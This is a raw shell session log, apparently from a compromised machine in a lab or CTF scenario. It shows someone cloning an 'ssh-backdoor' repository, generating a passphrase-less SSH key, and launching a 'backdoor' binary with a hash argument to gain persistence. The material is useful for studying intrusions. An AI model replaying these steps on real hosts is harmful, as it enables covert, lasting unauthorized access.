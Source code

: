 remote: Compressing objects: 100% (15/15), done.        
Unpacking objects:   5% (1/18)   
Unpacking objects:  11% (2/18)   
Unpacking objects:  16% (3/18)   
Unpacking objects:  22% (4/18)   
Unpacking objects:  27% (5/18)   
Unpacking objects:  33% (6/18)   
Unpacking objects:  38% (7/18)   
remote: Total 18 (delta 4), reused 7 (delta 1), pack-reused 0        
Unpacking objects:  44% (8/18)   
Unpacking objects:  50% (9/18)   
Unpacking objects:  55% (10/18)   
Unpacking objects:  61% (11/18)   
Unpacking objects:  66% (12/18)   
Unpacking objects:  72% (13/18)   
Unpacking objects:  77% (14/18)   
Unpacking objects:  83% (15/18)   
Unpacking objects:  88% (16/18)   
Unpacking objects:  94% (17/18)   
Unpacking objects: 100% (18/18)   
Unpacking objects: 100% (18/18), done.
james@overpass-production:~$ cd ssh-backdoor
cd ssh-backdoor
james@overpass-production:~/ssh-backdoor$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/james/.ssh/id_rsa): id_rsa
id_rsa
Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The key's randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+
james@overpass-production:~/ssh-backdoor$ chmod +x backdoor
chmod +x backdoor
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
